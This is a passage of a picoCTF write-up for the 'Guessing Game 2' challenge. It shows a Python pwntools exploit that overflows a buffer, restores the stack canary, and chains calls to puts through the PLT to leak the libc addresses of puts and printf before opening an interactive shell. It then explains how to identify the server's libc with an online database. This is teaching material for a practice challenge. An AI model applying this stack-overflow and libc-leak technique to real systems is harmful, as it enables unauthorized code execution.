 ```python
p.recvuntil("Name? ")
p.sendline(payload_1)
s = p.recvline()
s = p.recvline()
s = p.recv(4)
puts_libc = 0
count = 0

for i in s:
    puts_libc += ord(i) << count
    count += 8
log.info(hex(puts_libc))

payload_2 = "a"*512
payload_2 += p32(canary)
payload_2 += "a"*12
payload_2 += p32(puts_plt)
payload_2 += p32(win_addr)
payload_2 += p32(printf_got_plt)
p.recvuntil("Name? ")
p.sendline(payload_2)
s = p.recvline()
s = p.recvline()
s = p.recv(4)
printf_libc = 0
count = 0
for i in s:
    printf_libc += ord(i) << count
    count += 8
log.info(hex(printf_libc))

p.interactive()
```

![img](/picoCTF/guessing_game_2/assets/libc_leak.png)

- After leaked 2 funtions address, I use [https://libc.rip/](https://libc.rip/) libc database to find which libc that server used. I need 2 funtions because I find 2 more libc available, so, to specify what is the right libc, I need to check the offset between printf and puts in each libc, if it is the right libc, the offset between 2 functions puts and printf is equal with offset that we have leaked.
